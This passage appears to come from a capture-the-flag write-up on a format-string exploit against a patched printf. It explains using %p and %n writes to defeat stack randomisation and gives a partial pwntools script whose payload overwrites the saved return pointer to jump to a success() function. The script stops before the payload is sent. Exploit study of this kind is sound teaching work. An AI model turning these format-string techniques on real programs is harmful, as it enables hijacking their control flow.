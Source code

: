 Great! Notice the wild addresses? We were able to point `reg2` to the correct address with the method described above despite having a randomized stack. (Keep in mind that the 4 byte value of `reg2` was positive in this example.)


## Abusing %p

In the whole exploit we did not use `%p` yet. Finally, we can put it to use. It essentially allows us to read the last byte of and address. It is exactly what we need here. We currently have the situation that we printed an unknown number of chars and would like to again, get `0x71` into the last byte of the saved return pointer. How can we possibly calculate a value that does this? `%p` to the rescue! The exact number of bytes written so far equals the value of `reg2`. By reading the last byte of it 255 times, we can essentially set the char counter = 0 mod 256 because `x + 255 * c = 0 mod 256` if `c` is the lest significant byte of `x`. One important detail of the modified `%p` is that it dereferences its argument before interpreting it as a char. So to get the last byte of `reg2`, we need to specify the stack offset of `reg1`, which is 520.

After that, we just need to print `0x71` bytes again to set the last byte of the char counter correctly. For this, we can add 255 `'%520$p'`'s for reading the last byte of `reg2`, followed by a final `%520$hhn`, writing to the saved `rip`. Putting it all together looks like this:

```python
from pwn import *
'''
offsets | thing | points to
519     | reg0  | reg1
520     | reg1  | reg2
521     | reg2  | last 16 bytes of code
'''

def exploit():
    # works only if int(lower 4 bytes of value of reg2) is positive

    # reach reg2, read lower 4 byte value via dynamic width
    payload = '%c'*520
    payload += '%*c'

    # we now know the value int(last 4 bytes of value of reg2) + 520
    # this means we know a stack addr. The distance to the stack addr
    # that holds the return addr is static. We have to go down 4104
    # bytes from the value in reg2 to reach the saved return ptr.
    # since only the last two bytes matter for that, lets add a magic value
    # so that (520+lower_4_bytes_reg2_val+MAGIC) & 0xFFFF == stack_addr_of_ret & 0xFF
    # => works bc addresses only differ in last two bytes

    # add magic number to forge to correct value & 0xffff
    payload += '%60912c'

    # now we have the correct number in printf counter. Overwrite
    # value of reg2. Abuse %n behavior, we deref two times, taking
    # pointer to pointer. Overwrite 2 bytes.
    payload += '%519$hn'

    # Now we need to write the static offset of success() which is 0x71
    # to the last byte of the ret ptr. Lets clear the last byte of the
    # printf counter so that printf counter & 0xFF is 0. Since the 
    # bytes printed so far equals the last 4 bytes of the current
    # reg2 value, read its lowest byte 255 times. Abuse behavior of
    # patched %p, dereferencing and printing as many X as int val of
    # last byte 
    payload += '%520$p' * 255

    # since printf counter & 0xFF = 0, get 0x71 into there,
    # which is the offset of success()
    payload += f'%{0x71}c'
```